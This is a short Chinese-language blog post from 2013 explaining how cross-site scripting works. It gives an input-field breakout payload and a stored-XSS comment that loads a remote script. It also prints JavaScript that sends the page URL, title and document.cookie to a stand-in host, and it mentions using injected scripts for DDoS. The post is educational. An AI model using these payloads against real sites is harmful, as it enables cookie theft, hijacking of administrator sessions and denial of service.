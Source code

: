 Author: levin
Slug: cross-site-scripting
Date: 2013-08-29 22:10
disqus_identifier: 201308292210
Title: 跨站脚本攻击实现原理
Category: Web
Tags: javascript

跨站脚本攻击`Cross-site scripting`是个比较老的漏洞攻击方法，今天对其了解了下。

它是如何实现的呢，假设有个表单需要提交，其中某个字段形如<!-- more -->

        <input type="text" name="t" value="" />

攻击者在此输入框填写了

        " /><script>alert('xss')</script><input value="

这样的内容提交到服务器，而服务器没有进行过滤处理，将其存入数据库，下次编辑此表单时服务器对此内容输出，raw的html看起来像这样：

        <input type="text" name="t" value="" /><script>alert('xss')</script><input value="" />

然后页面上就会多出1个输入框，并且会弹出确认框。这就是最简单的跨站脚本植入。

假设有个提交评论的输入框，在其上提交评论：

        <script src="http://example.com/xss.js"></script>

提交表单，如果这段代码没有被过滤，当后台管理员查看评论时，照常运行的话，此段代码将开始工作，首先会请求`http://example.com/xss.js`，如果此时`http://example.com/xss.js`返回的内容为：

    (function(){
        (new Image()).src = 'http://exmaple.com/xss_recv?location=' + encodeURIComponent(window.location.href) + '&cookie=' + document.cookie + '&title=' + encodeURIComponent(document.title)
    })()

那么浏览器将请求`http://exmaple.com/xss_recv`这个链接并附带上被脚本植入页面的一些信息，攻击者获取到这些信息，会尝试登陆那个管理后台，伪造cookie进行访问。

当然，除了窃取信息，也可以在访问量大的页面植入脚本，让脚本指向某个小型网站，可以达到DDoS的效果，使小网站宕机。

